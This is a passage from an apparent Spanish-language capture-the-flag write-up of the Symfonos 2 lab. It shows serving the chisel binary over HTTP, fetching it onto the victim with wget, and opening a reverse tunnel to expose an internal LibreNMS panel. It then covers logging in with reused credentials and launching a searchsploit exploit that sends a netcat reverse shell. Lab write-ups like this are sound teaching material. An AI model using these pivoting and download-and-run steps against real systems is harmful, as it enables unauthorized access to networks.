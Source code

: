 Una vez hecho, tenemos que transferirlo a la máquina víctima por lo que podemos usar python para hacerlo:

````py
python3 -m http.server 80
`````

- -m ejecuta el módulo de la librería como un script, en este caso http.server
- 80 es el puerto donde se creará el servicio

En la máquina víctima podemos descargarlo con wget:

````sh
wget <your IP>/chisel
chmod +x chisel
`````

![11Pic]({{ '/assets/img/symfonos2/20240223193046.png' | relative_url }}){: .center }

Primero ejecutaremos este comando en nuestra máquina:

````sh
./chisel server --reverse --port 9999
`````

- server ya que nos vamos a conectar a nuestra propia máquina desde la víctima
- reverse es porque nos interesa traer el puerto desde la otra máquina
- port es para indicar el puerto al que nos conectaremos

Ahora desde la máquina víctima corremos el siguiente comando: 

````sh
./chisel client <yourIP>:9999 R:8080:127.0.0.1:8080
`````

- R es una forma de indicar el localhost
- 8080 es el puerto que queremos traernos a nuestra máquina
- 127.0.0.1 referencia a la propia máquina
- 8080 es el puerto que queremos traernos

Posteriormente, podemos ir a nuestro navegador y buscar "127.0.0.1:8080". Esto nos mostrará el contenido de la web corriendo en local en la máquina víctima.

Como podemos ver, se trata de un CSM llamado LibreNMS

![12Pic]({{ '/assets/img/symfonos2/20240223203101.png' | relative_url }}){: .center }

Si probamos usuarios y contraseñas al azar el panel se corromperá, pero si usamos las credenciales de aeolus, el usuario con el que nos habíamos conectado por ssh, accederemos a la aplicación.

Con el tiempo encontré que la versión es vulnerable usando searchsploit:

![13Pic]({{ '/assets/img/symfonos2/20240223203809.png' | relative_url }}){: .center }

No logré identificar la versión del CSM pero inspeccionando el código podemos ver si ese exploit aplica a la versión en ejecución.
Como payload se envia una revershell de netcat:

![14Pic]({{ '/assets/img/symfonos2/20240223204059.png' | relative_url }}){: .center }
